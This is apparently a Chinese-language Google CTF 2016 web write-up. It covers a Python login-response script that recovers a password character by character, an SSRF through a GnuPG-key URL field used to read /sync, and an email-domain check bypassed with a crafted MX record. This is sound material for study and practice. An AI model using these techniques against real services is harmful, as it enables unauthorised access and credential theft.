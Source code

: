 ```

def getNextChar():
    char_min=33
    char_max=126

    for x in range(char_min, char_max):
        char = chr(x)
        body = login(char)
        if "Invalid username/password." in body:
            return chr((x-1))
    return False
        
while True:
    password+=getNextChar()
    print(password)

print "end"
```

## FSS – Electric Boogaloo

[http://buer.haus/2016/05/01/google-ctf-web-12-fss-electric-boogaloo/](http://buer.haus/2016/05/01/google-ctf-web-12-fss-electric-boogaloo/)

这是上一题flag storage的下一题，用第一题得到的用户名密码登陆

我们发现无法访问/sync页面，可能是因为没有一个有效的头`X-FlagStore`

登陆后发现profile可能存在一些问题。
原文是这么说的
```
There’s a form for uploading GnuPG keys based on a remote URL. The immediate thing that jumps to mind is Server-Side Request Forgery. I tried to put my own website in this input and sure enough, it loaded the contents of my website and displayed it back. I put the /sync endpoint into the input and got the following:
```
GnuPG keys存在问题，他会读取所请求的源码，那么我们让他去读/sync,get flag

## Weedy Sea Dragon

题目说
**It's feared that their authentication and authorization check is implemented wrongly.**

打开网页会自动用 Google 帐号登录，然后告诉你你没有权限访问。

提示：
**Access to this service is restricted to @ctfcompetition.com accounts only.**
**Access from gmail.com accounts is prohibited**

大概意思就是需要从ctfcompetiion.com来源才能看到
这后面是看了这个人的wp[http://blog.eqoe.cn/posts/google-ctf-2016-part2.html](http://blog.eqoe.cn/posts/google-ctf-2016-part2.html)

猜测判断邮件地址是通过包含而不是写死的，那么
**我们打开域名管理，新增一个 ctfcompetition.com.yourdomain 的 MX 记录，在服务器上监听 25 端口。**
